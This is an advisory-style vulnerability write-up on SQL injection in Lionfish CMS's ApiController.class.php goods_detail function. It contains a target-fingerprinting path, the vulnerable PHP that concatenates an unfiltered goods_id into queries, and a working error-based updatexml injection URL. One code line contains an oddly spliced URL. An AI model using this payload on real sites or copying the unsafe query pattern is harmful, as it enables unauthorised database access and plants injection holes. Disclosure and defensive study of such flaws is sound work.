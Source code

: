 # Lionfish CMS ApiController.class.php SQL injection vulnerability

## Vulnerability Description

Lionfish CMS ApiController.class.php parameter filtering is not rigorous, resulting in SQL injection vulnerability

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Lionfish CMS</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">"/seller.php?s=/Public/login"</span>

## Vulnerability reappears

The login page is as follows



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/szy-1-20220314000311259.png)



The file with vulnerability is **ApiController.class.php**, and the key location is



```php
public function goods_detail()
	{
		$goods_id = I('get.goods_id');
		//gallery =>img_url
		//goods goods.goods_desc  goods_name group_price  market_price  sell_count group_number 
		
		$sql="select g.*,gd.description,gd.summary,gd.tag from ".
		C('DB_PREFIX')."goods g,".C('DB_PREFIX')."goods_description gd where g.goods_id=gd.goods_id and g.goods_id=".$goods_id;
		
		$goods_arr=M()->query($sql);
		
		$qian=array("\r\n");
		$hou=array("<br/>");
		$goods_arr[0]['summary'] = str_replace($qian,$hou,$goods_arr[0]['summary']); 
		
		$sql="select image from ".C('DB_PREFIX')."goods_image where goods_id=".$goods_id;
		$goods_image=M()->query($sql);
		
		$gallery = array();
		$default_image = '';
		foreach($goods_image as $val)
		{
			$val['img_url'] = str_replace('http','https',C('SITE_URL')).'/Uploads/ http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/'.$val['image'];
			
			if(empty($default_image))
			{
				$default_image = str_replace('http','https',C('SITE_URL')).resize($val['image'], C('goods_thumb_width'), C('goods_thumb_height'));
			}
			
			$gallery[] = array('img_url' => $val['img_url']); 
		}
		
		$goods = $goods_arr[0];
```



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/szy-8.png)



The vulnerability test is



```plain
https://xxx.xxx.xx.xxx/index.php?s=api/goods_detail&goods_id=1%20and%20updatexml(1,concat(0x7e,md5(1),0x7e),1)
```



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/szy-9.png)